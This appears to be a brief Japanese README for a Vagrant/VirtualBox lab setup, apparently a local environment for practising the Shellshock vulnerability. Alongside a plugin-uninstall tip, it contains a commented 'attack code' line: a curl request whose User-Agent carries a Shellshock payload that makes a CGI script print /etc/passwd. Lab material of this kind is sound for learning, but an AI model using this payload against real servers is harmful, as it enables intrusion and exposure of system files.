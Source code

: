 virtualboxの設定
================

Overview
#vagrant-vbguestのバージョンが一致しない可能性が存在するので次のコマンドを実行する
#vagrant plugin uninstall vagrant-vbguest

#攻撃コード
#curl -A "() { :;};echo Content-type:text/plain;echo;/bin/cat /etc/passwd" http://192.168.33.10/cgi-bin/shellshock.cgi

